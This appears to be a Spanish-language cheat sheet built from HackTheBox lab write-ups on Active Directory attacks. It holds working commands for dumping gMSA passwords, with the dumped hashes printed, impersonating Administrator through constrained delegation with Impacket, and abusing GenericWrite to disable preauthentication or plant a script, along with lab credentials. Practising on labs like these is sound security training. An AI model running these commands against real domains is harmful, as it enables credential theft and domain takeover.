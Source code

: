```
PS C:\Temp> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential('search.htb\bir-adfs-gmsa',$SecPass)
PS C:\Temp> Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami }
search\bir-adfs-gmsa$
```

### De forma remota

```
python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::4eded24079fe2667c67f2b43fd6cb57b
svc_int$:aes256-cts-hmac-sha1-96:3f07249f66a3678529bc87b0d6bce206d86ef0e5ed00f488d66751810c722817
svc_int$:aes128-cts-hmac-sha1-96:b8173f21d39ccd3e047ea12c2f791ab4
```

## Abuso de AllowedToDelegate

Esto significa que tengo la capacidad de impersonar a un usuario

![https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/6.png](https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/6.png)

image

```
getST.py intelligence.htb/svc_int -hashes :4eded24079fe2667c67f2b43fd6cb57b -impersonate Administrator -spn WWW/dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## Abuso de GenericWrite

### Conversión a un usuario en Kerberoasteable

```
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-AdUser jorden | Set-ADAccountControl  -doesnotrequirepreauth $true
```

### Modificar Loggon Scripts

```
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> echo "dir C:\Users\Maria\Desktop\ > C:\Temp\output.txt" > cmd.ps1
*Evil-WinRM* PS C:\Temp> Set-DomainObject -Identity maria -SET @{serviceprincipalname='C:\Temp\cmd.ps1'}
```

